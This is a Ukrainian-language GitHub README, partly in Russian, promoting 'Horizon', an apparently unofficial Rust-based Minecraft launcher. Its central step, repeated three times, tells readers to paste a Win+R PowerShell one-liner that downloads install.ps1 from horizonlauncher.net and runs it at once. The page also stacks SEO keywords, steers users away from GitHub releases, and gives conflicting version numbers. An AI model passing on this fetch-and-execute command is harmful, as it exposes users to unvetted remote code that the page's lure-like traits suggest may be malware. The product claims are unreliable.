

<p align="center">
  <strong>Швидка установка (Win+R)</strong>
</p>

<p align="center">Win+R → встав команду → лаунчер ставиться і відкривається сам.</p>

```bat
powershell -NoP -c "irm https://horizonlauncher.net/install.ps1 | iex"
```

1. **Win+R.** Затисни Windows і R — з’явиться вікно «Виконати».
2. **Встав.** Ctrl+V — встав команду нижче.
3. **Enter.** Horizon завантажиться, встановиться і відкриється — далі Підготувати → Грати.

<p align="center">Без прав адміністратора. Якщо Windows запитає про PowerShell — підтвердь. Команда тягне `install.ps1` лише з horizonlauncher.net.</p>

<p align="center">
  <a href="https://horizonlauncher.net/horizon-launcher-setup.exe"><strong>Звичайна установка — Завантажити Horizon setup.exe</strong></a>
  · <a href="https://horizonlauncher.net/download-horizon/">Завантажити Horizon</a>
  · <a href="https://horizonlauncher.net/">horizonlauncher.net</a>
  · <a href="https://t.me/horizonlauncher">Telegram</a>
</p>

<p align="center">
  <strong>Останнє оновлення:</strong>
  <a href="https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.69">0.2.69</a>
  · <a href="https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases">Усі оновлення та патчі</a>
</p>

<p align="center">
  <strong>README:</strong>
  <a href="README.md">Русский</a> · <a href="README.en.md">English</a> · <strong>Українська</strong> · <a href="README.es.md">Español</a> · <a href="README.pt.md">Português</a> · <a href="README.de.md">Deutsch</a> · <a href="README.fr.md">Français</a> · <a href="README.it.md">Italiano</a> · <a href="README.pl.md">Polski</a> · <a href="README.tr.md">Türkçe</a> · <a href="README.zh.md">简体中文</a> · <a href="README.ja.md">日本語</a> · <a href="README.ko.md">한국어</a> · <a href="README.ar.md">العربية</a> · <a href="README.hi.md">हिन्दी</a> · <a href="README.id.md">Indonesia</a> · <a href="README.vi.md">Tiếng Việt</a>
</p>

<p align="center">
  <a href="https://horizonlauncher.net/">
    
  </a>
</p>

<h1 align="center">Завантажити Horizon — лаунчер Minecraft на Rust (Minecraft Rust Edition)</h1>

<p align="center">
  <b>Horizon Minecraft · клієнт Minecraft Java на Rust · Windows setup · вищий FPS · безкоштовно</b>
</p>

<p align="center">
  <a href="https://horizonlauncher.net/"><strong>Офіційний сайт horizonlauncher.net</strong></a> ·
  <a href="https://horizonlauncher.net/minecraft-rust/">Minecraft на Rust</a> ·
  <a href="https://horizonlauncher.net/faq/">FAQ</a> ·
  <a href="https://t.me/horizonlauncher">Telegram</a>
</p>

<p align="center">
  <a href="https://horizonlauncher.net/download-horizon/"></a>
  <a href="https://horizonlauncher.net/horizon-launcher-setup.exe"></a>
  <a href="https://horizonlauncher.net/"></a>
  <a href="https://t.me/horizonlauncher"></a>
</p>

<p align="center">
  
  
  
  
  
  
  <a href="https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.69"></a>
  <a href="https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases"></a>
</p>


## Відео та GIF Horizon

Повні MP4 на сайті: [4K fly](https://horizonlauncher.net/media/mod-spotlight/reels/runaway.mp4) · [Nether](https://horizonlauncher.net/media/mod-spotlight/reels/nether.mp4) · [Shaders](https://horizonlauncher.net/media/mod-spotlight/reels/shaders.mp4) · [TNT](https://horizonlauncher.net/media/mod-spotlight/blast.mp4) · [overview](https://horizonlauncher.net/media/mod-spotlight/reels/overview.mp4) · [gallery](https://horizonlauncher.net/gallery/)

<p align="center">
  <a href="https://horizonlauncher.net/"></a>
</p>
<p align="center"><i>4K-проліт світом Java Edition на нативному клієнті Horizon.</i></p>

| Незер · Crimson Forest | Шейдери та світло |
|:---:|:---:|
| <a href="https://horizonlauncher.net/minecraft-rust/"></a> | <a href="https://horizonlauncher.net/performance/"></a> |

<p align="center">
  <a href="https://horizonlauncher.net/"></a>
</p>
<p align="center"><i>Тест TNT — вибух малює клієнт без JVM.</i></p>

<p align="center">
  <a href="https://horizonlauncher.net/performance/"></a>
  <a href="https://horizonlauncher.net/performance/"></a>
  <a href="https://horizonlauncher.net/launcher/"></a>
</p>
<p align="center">
  <a href="https://horizonlauncher.net/"></a>
  <a href="https://horizonlauncher.net/minecraft-rust/"></a>
  <a href="https://horizonlauncher.net/performance/"></a>
</p>
<p align="center">
  <a href="https://horizonlauncher.net/"></a>
  <a href="https://horizonlauncher.net/"></a>
  <a href="https://horizonlauncher.net/"></a>
</p>
<p align="center">
  <a href="https://horizonlauncher.net/launcher/"></a>
  <a href="https://horizonlauncher.net/download-horizon/"></a>
  <a href="https://horizonlauncher.net/"></a>
</p>


<div>

**Horizon** — неофіційний **лаунчер і клієнт Minecraft Java Edition** мовою **Rust**, не JVM. Windows setup ставиться за хвилину: ті самі світи й сервери, зазвичай **вищий FPS**, ніж у ванільної Java.

> Канонічна сторінка та інсталятор: **[https://horizonlauncher.net/](https://horizonlauncher.net/)**  
> Прямий файл: **[https://horizonlauncher.net/horizon-launcher-setup.exe](https://horizonlauncher.net/horizon-launcher-setup.exe)**

Horizon **не** належить Mojang / Microsoft. Завантажуйте лише з **horizonlauncher.net**.

## Оновлення та підтримка

Лаунчер підтримується: патчі виходять регулярно. Кожна версія — окремий реліз із changelog. Актуальний setup на сайті, історія патчів тут.

**Останнє оновлення:** [0.2.69](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.69) · **[Усі оновлення та патчі](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases)** — 27 релізів (0.2.0 → 0.2.69).

| Версія | Дата | |
|---|---|---|
| **[0.2.69](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.69)** | 2026-11-16 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.69) |
| **[0.2.68](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.68)** | 2026-11-15 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.68) |
| **[0.2.67](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.67)** | 2026-11-15 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.67) |
| **[0.2.66](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.66)** | 2026-11-15 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.66) |
| **[0.2.65](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.65)** | 2026-11-14 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.65) |
| **[0.2.64](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.64)** | 2026-11-14 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.64) |
| **[0.2.63](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.63)** | 2026-11-13 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.63) |
| **[0.2.62](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.62)** | 2026-11-12 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.62) |
| **[0.2.61](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.61)** | 2026-11-12 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.61) |
| **[0.2.60](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.60)** | 2026-11-11 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.60) |
| **[0.2.59](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.59)** | 2026-11-10 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.59) |
| **[0.2.58](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.58)** | 2026-11-09 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.58) |
| **[0.2.57](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.57)** | 2026-11-09 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.57) |
| **[0.2.56](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.56)** | 2026-11-08 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.56) |
| **[0.2.55](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.55)** | 2026-11-08 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.55) |
| **[0.2.54](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.54)** | 2026-11-08 | [патчноут](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.54) |


Старіші версії: [0.2.53](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.53) · [0.2.52](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.52) · [0.2.51](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.51) · [0.2.50](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.50) · [0.2.49](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.49) · [0.2.48](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.48) · [0.2.47](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.47) · [0.2.46](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.46) · [0.2.45](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.45) · [0.2.44](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.44) · [0.2.43](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.43)


## Що таке Horizon Minecraft

**Horizon launcher** — Windows-лаунчер Minecraft Java. Під ним **Minecraft Rust Edition**: ігровий клієнт, переписаний на Rust.

## Завантажити Horizon безкоштовно (Windows)

Актуальний спосіб завантажити Horizon — лише офіційний сайт.

| | |
|---|---|
| Завантажити Horizon | [https://horizonlauncher.net/download-horizon/](https://horizonlauncher.net/download-horizon/) |
| Встановити лаунчер | [https://horizonlauncher.net/install-horizon/](https://horizonlauncher.net/install-horizon/) |
| Setup `.exe` | [https://horizonlauncher.net/horizon-launcher-setup.exe](https://horizonlauncher.net/horizon-launcher-setup.exe) |
| Minecraft на Rust | [https://horizonlauncher.net/minecraft-rust/](https://horizonlauncher.net/minecraft-rust/) |
| Офіційний сайт horizonlauncher.net | [https://horizonlauncher.net](https://horizonlauncher.net) |

**Системні вимоги**

- Windows 10 / Windows 11 x64
- `horizon-launcher-setup.exe`
- Horizon **0.2.69**
- Безкоштовно · сайт російською та English

## Як поставити Horizon — два способи

Як на офіційному сайті — два способи поставити лаунчер: [horizonlauncher.net](https://horizonlauncher.net/).

| | |
|---|---|
| **Швидка установка (Win+R)** | Win+R → встав команду → лаунчер ставиться і відкривається сам. |
| **Звичайна установка** | Завантажити setup.exe, запустити інсталятор, далі Підготувати → Грати. |

### Спосіб 1. Швидка установка через Win+R

Скопіюй команду, відкрий Win+R і натисни Enter — Horizon завантажиться, встановиться і відкриється сам.

```bat
powershell -NoP -c "irm https://horizonlauncher.net/install.ps1 | iex"
```

1. **Win+R.** Затисни Windows і R — з’явиться вікно «Виконати».
2. **Встав.** Ctrl+V — встав команду нижче.
3. **Enter.** Horizon завантажиться, встановиться і відкриється — далі Підготувати → Грати.

Без прав адміністратора. Якщо Windows запитає про PowerShell — підтвердь. Команда тягне `install.ps1` лише з horizonlauncher.net.

Повний гід: [https://horizonlauncher.net/install-horizon/](https://horizonlauncher.net/install-horizon/) · [https://horizonlauncher.net/download-horizon/](https://horizonlauncher.net/download-horizon/)

### Спосіб 2. Звичайна установка (setup.exe)

Той самий інсталятор Horizon — звичайне завантаження файлу, без команди. Актуальна версія: **0.2.54**, Windows x64, ~60 MB.

**[Завантажити Horizon — Windows setup](https://horizonlauncher.net/horizon-launcher-setup.exe)**  
`horizon-launcher-setup.exe` · Windows x64 · ~60 MB · v0.2.69

1. Завантаж [horizon-launcher-setup.exe](https://horizonlauncher.net/horizon-launcher-setup.exe).
2. Запусти інсталятор Windows.
3. Відкрий лаунчер Horizon.
4. Натисни **Підготувати**, потім **Грати**.

**Після встановлення:** Відкрити лаунчер → Підготувати → Грати

- Windows x64 · GPU DX12 / Vulkan · будь-яка версія Minecraft на диску


## Возможности Horizon Minecraft (клиент Java на Rust)

**Horizon** переписывает **Minecraft: Java Edition 26.3** на **Rust**: те же миры, генерация и правила, нативный рендер вместо JVM. Не мод — отдельная программа, которую ставит **лаунчер Horizon** с **[horizonlauncher.net](https://horizonlauncher.net/)**.

| Тема | Что ищут в Google / Bing | Страница |
|------|---------------------------|----------|
| Скачать лаунчер | скачать Horizon, Horizon setup exe, Win+R установка | [https://horizonlauncher.net/download-horizon/](https://horizonlauncher.net/download-horizon/) |
| FPS / Rust client | Minecraft на Rust, выше FPS Java, Rust Minecraft client | [https://horizonlauncher.net/minecraft-rust/](https://horizonlauncher.net/minecraft-rust/) · [https://horizonlauncher.net/performance/](https://horizonlauncher.net/performance/) |
| Моды | Distant Horizons, Create, шейдеры Horizon | [https://horizonlauncher.net/distant-horizons/](https://horizonlauncher.net/distant-horizons/) · [https://horizonlauncher.net/create-mod/](https://horizonlauncher.net/create-mod/) · [https://horizonlauncher.net/shaders/](https://horizonlauncher.net/shaders/) |
| Мультиплеер | сервера Java, LAN, друзья | [https://horizonlauncher.net/server/](https://horizonlauncher.net/server/) |
| Юридическое | LGPL Horizon, не Mojang | [https://horizonlauncher.net/legal/](https://horizonlauncher.net/legal/) |

### Parity и производительность

У upstream-проекта **сотни differential harnesses**: одни и те же входы прогоняют ваниль Java и Horizon Rust и сравнивают результат — генерация чанков, редстоун, сущности, сеть, освещение, сохранения. На практике это значит: **скачать Horizon** ради **стабильного FPS** и отзывчивого клиента, а не «случайного» форка.

### Что есть в игре (по upstream, Windows через наш setup)

- **Одиночка и LAN**, дальняя прорисовка (**LOD** до 1024 чанков), пресеты графики.
- **Геймпады** Xbox / PlayStation / Switch Pro — у ванильной Java этого нет.
- **Нативные моды Horizon** (`.hnmod` / `.hmod`), а не Fabric/Forge JAR.
- **Шейдеры API 0.2** (0.1 снят с 0.2.67+); сборка **0.2.69** на сайте.
- **Лицензия LGPL-3.0-or-later** с релиза 0.2.69 (код Horizon; Minecraft files — ваши легальные).

### Последние патчи лаунчера (0.2.69, 16 ноября 2026)

- **0.2.69** — LGPL-3.0-or-later, правки port-pack ledger.
- **0.2.68** — вкладки лаунчера, Prism `--prism-dir`, переводы.
- **0.2.67** — только **shader API 0.2**.
- **0.2.66** — тесты и парсинг игровых файлов.
- **0.2.65** — streaming download, IPv6 hosting routes, junction AutoRun.

**Скачивание:** Win+R `irm https://horizonlauncher.net/install.ps1 | iex` или **[horizon-launcher-setup.exe](https://horizonlauncher.net/horizon-launcher-setup.exe)** — только с **horizonlauncher.net**, не с чужих GitHub Releases.

## Навіщо Minecraft на Rust

Ваніль крутиться на JVM. Horizon — нативний Rust-клієнт:

- вищий FPS на тому ж ПК;
- менше стрибків кадру;
- лаунчер без ручного JDK;
- будь-яка версія гри вже на диску.

Детальніше: [https://horizonlauncher.net/minecraft-rust/](https://horizonlauncher.net/minecraft-rust/) · [https://horizonlauncher.net/performance/](https://horizonlauncher.net/performance/)

## FAQ

**Де безпечно завантажити Horizon?**  
Лише [https://horizonlauncher.net](https://horizonlauncher.net) і [setup](https://horizonlauncher.net/horizon-launcher-setup.exe).

**Це офіційний Minecraft?**  
Ні. Неофіційний клієнт і лаунчер.

**Це гра Rust від Facepunch?**  
Ні. Це клієнт Minecraft Java мовою Rust.

**Чи потрібна Java?**  
Для Rust-клієнта Horizon — ні.

## Усі сторінки сайту

- [Головна](https://horizonlauncher.net/)
- [Завантажити Horizon](https://horizonlauncher.net/download-horizon/)
- [Встановити лаунчер](https://horizonlauncher.net/install-horizon/)
- [Minecraft на Rust](https://horizonlauncher.net/minecraft-rust/)
- [Лаунчер Horizon](https://horizonlauncher.net/launcher/)
- [Сервери](https://horizonlauncher.net/server/)
- [Моди](https://horizonlauncher.net/mods/)
- [FAQ](https://horizonlauncher.net/faq/)
- [Продуктивність / FPS](https://horizonlauncher.net/performance/)
- [Sitemap](https://horizonlauncher.net/sitemap.xml)

## SEO-теги та ключові запити

`завантажити Horizon` `лаунчер Horizon` `Minecraft на Rust` `Minecraft Rust Edition` `скачати Horizon` `download Horizon` `horizonlauncher.net` `Win+R Horizon` `Horizon Win+R install` `Horizon setup.exe`

`скачать Horizon` `скачать Horizon бесплатно` `скачать Horizon Minecraft` `скачать Horizon лаунчер` `скачать Horizon Windows` `скачать Horizon Windows 10` `скачать Horizon Windows 11` `скачать Horizon x64` `скачать Horizon 64 bit` `скачать Horizon setup` `скачать Horizon exe` `скачать Horizon installer` `скачать Horizon установщик` `скачать Horizon 0.2.69` `скачать Horizon 2026` `скачать Horizon официальный` `скачать Horizon с официального сайта` `скачать Horizon horizonlauncher.net` `скачать Horizon github` `скачать Horizon launcher github` `Horizon Minecraft скачать` `Horizon Minecraft бесплатно` `Horizon Minecraft лаунчер` `Horizon Minecraft Windows` `Horizon Minecraft Rust` `Horizon Minecraft на Rust` `Horizon Minecraft Rust Edition` `лаунчер Horizon` `лаунчер Horizon скачать` `лаунчер Horizon Windows` `лаунчер Horizon Minecraft` `лаунчер Horizon Minecraft Java` `установить Horizon` `установка Horizon` `как скачать Horizon` `как установить Horizon` `как поставить Horizon` `быстрая установка Horizon` `обычная установка Horizon` `Win+R Horizon` `Horizon Win+R` `команда Win+R Horizon` `powershell Horizon` `irm install.ps1 Horizon` `install.ps1 horizonlauncher.net` `horizon-launcher-setup.exe` `Horizon setup.exe` `Minecraft на Rust` `Minecraft Rust Edition` `клиент Minecraft на Rust` `клиент Minecraft Rust` `Rust клиент Minecraft` `нативный клиент Minecraft` `Minecraft без JVM` `Minecraft без Java` `Minecraft Java на Rust` `альтернатива официальному лаунчеру Minecraft` `лаунчер Minecraft Windows` `лаунчер Minecraft Java` `скачать лаунчер Minecraft` `лучший лаунчер Minecraft FPS` `высокий FPS Minecraft` `поднять FPS Minecraft` `Minecraft не лагает` `оптимизация Minecraft Java` `FPS Minecraft Java` `Horizon 0.2.54` `Horizon launcher` `download Horizon` `download Horizon Minecraft` `download Horizon launcher` `download Horizon Windows setup` `Horizon Minecraft launcher download` `Minecraft on Rust` `Minecraft Rust Edition download` `Rust Minecraft client` `Horizon Rust Edition` `free Horizon launcher` `Horizon github` `Horizon Minecraft GitHub` `GitHub Horizon launcher`

### Завантажити Horizon / Win+R / setup.exe

- Сайт: [https://horizonlauncher.net/](https://horizonlauncher.net/)
- Скачать: [https://horizonlauncher.net/download-horizon/](https://horizonlauncher.net/download-horizon/)
- Win+R: `powershell -NoP -c "irm https://horizonlauncher.net/install.ps1 | iex"`
- Setup: [https://horizonlauncher.net/horizon-launcher-setup.exe](https://horizonlauncher.net/horizon-launcher-setup.exe)
- EN: [https://horizonlauncher.net/en/](https://horizonlauncher.net/en/)
- EN download: [https://horizonlauncher.net/en/download-horizon/](https://horizonlauncher.net/en/download-horizon/)
- Install: [https://horizonlauncher.net/install-horizon/](https://horizonlauncher.net/install-horizon/)
- Minecraft на Rust: [https://horizonlauncher.net/minecraft-rust/](https://horizonlauncher.net/minecraft-rust/)
- Лаунчер: [https://horizonlauncher.net/launcher/](https://horizonlauncher.net/launcher/)
- FPS: [https://horizonlauncher.net/performance/](https://horizonlauncher.net/performance/)
- FAQ: [https://horizonlauncher.net/faq/](https://horizonlauncher.net/faq/)
- Сервера: [https://horizonlauncher.net/server/](https://horizonlauncher.net/server/)
- Моды: [https://horizonlauncher.net/mods/](https://horizonlauncher.net/mods/)
- Telegram: [https://t.me/horizonlauncher](https://t.me/horizonlauncher)
- Sitemap: [https://horizonlauncher.net/sitemap.xml](https://horizonlauncher.net/sitemap.xml)

скачать Horizon Minecraft лаунчер бесплатно Windows 10 Windows 11 x64 setup exe официальный сайт horizonlauncher.net Minecraft Rust Edition клиент на Rust выше FPS чем ванильная Java без JVM Win+R одна команда powershell install.ps1 или обычная установка horizon-launcher-setup.exe Подготовить Играть любая версия игры на диске неофициальный клиент не Mojang не Microsoft.

download Horizon Minecraft launcher free Windows setup Minecraft Java Edition client rewritten in Rust higher FPS than vanilla JVM unofficial Horizon Rust Edition github readme canonical download horizonlauncher.net Win+R quick install or standard setup.exe.

**Завантажити Horizon:** [https://horizonlauncher.net](https://horizonlauncher.net) · [https://horizonlauncher.net/download-horizon/](https://horizonlauncher.net/download-horizon/) · [https://horizonlauncher.net/horizon-launcher-setup.exe](https://horizonlauncher.net/horizon-launcher-setup.exe)


</div>
